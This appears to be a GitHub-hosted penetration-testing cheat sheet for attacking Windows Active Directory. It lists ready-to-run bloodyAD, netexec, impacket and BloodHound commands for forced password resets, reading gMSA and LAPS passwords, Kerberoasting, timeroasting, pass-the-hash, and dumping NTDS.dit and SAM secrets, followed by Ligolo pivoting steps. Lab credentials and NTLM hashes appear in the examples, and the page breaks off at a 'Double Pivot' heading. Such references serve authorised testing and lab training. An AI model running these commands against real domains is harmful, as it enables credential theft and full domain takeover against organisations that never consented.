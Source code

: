 ### bloodyAD

bloodyAD is an Active Directory privilege escalation swiss army knife. bloodyAD can perform specific LDAP calls to a domain controller in order to perform AD privesc. It supports authentication using cleartext passwords, pass-the-hash, pass-the-ticket or certificates and binds to LDAP services of a domain controller to perform AD privesc.

autobloodyAD: https://github.com/CravateRouge/autobloody

**Reset/Change a User’s Password (ForceChangePassword, AllExtendedRights**

```bash
#Change the password for admin with john's permissions - john = ControlledUser - admin = User whose password we want to change
bloodyAD -u john -p 'NewPassword123!' -d $domain --host $IP set password admin 'NewPassword123!'
```

```bash
#Enumerate the attributes and ACLs of a specific group
 bloodyAD --host dc01.ad.trilocor.local -d ad.trilocor.local -u username -p password get object "CN=GROUP NAME,OU=Security Groups,OU=Corp,DC=ad,DC=trilocor,DC=local" --attr 
 distinguishedName,nTSecurityDescriptor --resolve-sd
```

Enumerate a user’s rights at the Domain Level

```bash
bloodyAD --host dc01.ad.trilocor.local -d ad.trilocor.local -u username -p password get object 'DC=ad,DC=trilocor,DC=local' --attr ntsecuritydescriptor --resolve-sd
```

Enumerate a user’s

```bash
#Enumerate a user's rights, permissions, ACLs
bloodyAD --host dc01.ad.trilocor.local -d ad.trilocor.local -u username -p password get writable --detail
```

**Read GMSA Password (ReadGMSAPassword)**

```bash
##Use the Infrastructure 'ReadGMSAPassword' privilege to get the NTLM hash for ansible_dev$
nxc ldap tombwatcher.htb -u Alfred -p basketball --gmsa
```

**Deleted Objects - AD Tombstones**

```bash
#Query to find deleted objects from the AD tombstone
bloodyAD -u $user -p '$password' -d $domain --host $DC get search -c 1.2.840.113556.1.4.2064 --filter '(isDeleted=TRUE)' --attr name --base 'CN=Deleted Objects,DC=ad,DC=trilocor,DC=local'
```

**Enable a Disabled Account**

```bash
bloodyAD -u $user -p '$password' -d $domain --host $DC remove uac $target_username -f ACCOUNTDISABLE
bloodyAD -u john.smith -p 'Password' -d htb.local --host dc01.htb.local remove uac joseph.smith -f ACCOUNTDISABLE
```

**Change a User’s SPN (for Targeted Kerberoasting)**

```bash
bloodyAD -d $domain --host $DC -u $user -p '$password' -k set object $user servicePrincipalName -v 'http/web.ad.trilocor.local'
```

**Search for LAPS Passwords (with GenericAll privilege)**

```bash
bloodyAD -u $user -p '$password' -d $domain --host $DC get search --filter '(&(objectCategory=computer)(ms-MCS-AdmPwd=*))' --attr ms-MCS-AdmPwd --base 'ou=servers,dc=reflection,dc=vl'

ldapsearch -x -H ldap://10.10.151.149 -D "abbie.smith@reflection.vl" -w 'CMe1x+nlRaaWEw' -b 
"ou=servers,dc=reflection,dc=vl" "(&(objectCategory=computer)(ms-MCS-AdmPwd=*))" ms-MCS-AdmPwd
```

### netexec

**Kerberoasting / Targeted Kerberoasting**

```bash
nxc ldap IP -u user -p password --kerberoast kerberoast.out
```

**RBCD / GenericAll Exploitation without a Machine Account**

```bash
##Query Machine Account Quota (MAQ) - 0 = we CANNOT create computer objects
nxc ldap $dc -u $user -p $password -M maq
```

**Timeroasting**

```bash
nxc smb $domain -M timeroast
```

**Query LDAP**

```bash
nxc ldap <ip> -u username -p password --query "(sAMAccountName=Administrator)" ""
nxc ldap <ip> -u username -p password --query "(sAMAccountName=Administrator)" "sAMAccountName objectClass pwdLastSet"
#Get User Descriptions
nxc ldap <hostname> -u <user> -p <pass> -M get-desc-users
```

**Find Misconfigured Delegation**

```bash
#Find Misconfigured Delegation
nxc ldap $IP-u $user -p $password --find-delegation

# Example Output

SMB    192.168.56.11   445   WINTERFELL   [*] Windows 10 / Server 2019 Build 17763 x64 (name:WINTERFELL) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:False)
LDAP   192.168.56.11   389   WINTERFELL   [+] north.sevenkingdoms.local\eddard.stark:FightP3aceAndHonor! (Pwn3d!)
LDAP   192.168.56.11   389   WINTERFELL   AccountName  AccountType DelegationType                     DelegationRightsTo
LDAP   192.168.56.11   389   WINTERFELL   ------------ ----------- ---------------------------------- ----------------------------------------------------------------
LDAP   192.168.56.11   389   WINTERFELL   sansa.stark  Person      Unconstrained                      N/A
LDAP   192.168.56.11   389   WINTERFELL   jon.snow     Person      Constrained w/ Protocol Transition CIFS/winterfell, CIFS/winterfell.north.sevenkingdoms.local
LDAP   192.168.56.11   389   WINTERFELL   jon.snow     Person      Resource-Based Constrained         RBCD-COMPUTER$
LDAP   192.168.56.11   389   WINTERFELL   CASTELBLACK$ Computer    Constrained                        HTTP/winterfell, HTTP/winterfell.north.sevenkingdoms.local
LDAP   192.168.56.11   389   WINTERFELL   пользователь Person      Resource-Based Constrained         WINTERFELL$
```

### Impacket

Get a TGT for a user

```bash
impacket-getTGT $domain/'user':'password'
impacket-getTGT htb.local/'john':'Password123'
```

Dump database

```bash
impacket-secretsdump DOMAIN/username:password@IP
#Dumping secrets with a hash
impacket-secretsdump htb.local/john@10.10.10.5 -hashes :aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4
#Dump local SAM & SYSTEM files
impacket-secretsdump -sam SAM -system SYSTEM -security SECURITY LOCAL
#Dump local NTDS.dit (AD database)
impacket-secretsdump -ntds ntds.dit -system SYSTEM -security SECURITY LOCAL
```

Connecting to an MSSQL server

```bash
impacket-mssqlclient DOMAIN/username:password@IP
#Connecting to an MSSQL server with a hash
impacket-mssqlclient htb.local/john@10.10.10.5 -hashes :32ed87bdb5fdc5e9cba88547376818d4
```

### BloodHound

**Collection**

```bash
nxc ldap $domain -u $user -p $password --bloodhound --collection All --dns-server $IP

bloodhound-python -d $domain --zip -c All -ns $IP -u $user -p $password
```

### Pivoting with Ligolo

**Single Pivot**

```powershell
sudo ip tuntap add user $(whoami) mode tun ligolo #Add user
sudo ip link set ligolo up
```

**Single Pivot (same IP range)**

Pivoting when the target IP range is the same range as your IP (e.g both 10.10 range)

```bash
sudo ip tuntap add user $(whoami) mode tun ligolo #Add user
sudo ip link set ligolo up
sudo ip route add 10.10.146.86 via 10.8.5.207  #Add the machine IP (10.10.146.86) via your VPN IP (10.8.5.207)
sudo ip route add 10.10.146.80/28 dev ligolo   #Add a route between 10.10.146.80 to .95

```

**Port Forwarding**

If you need to access the local ports of the currently connected agents, there’s a “magic” CIDR hardcoded in Ligolo-ng: 240.0.0/4 (This is an unusual IPv4 subnet). If you query an IP address on this subnet, Ligolo-ng will automatically redirect traffic to the agent’s local IP address (127.0.0.1).

```bash
sudo ip route add 240.0.0.5/32 dev ligolo-portfwd
nmap -Pn 240.0.0.5 -p3306
```

**Double Pivot**
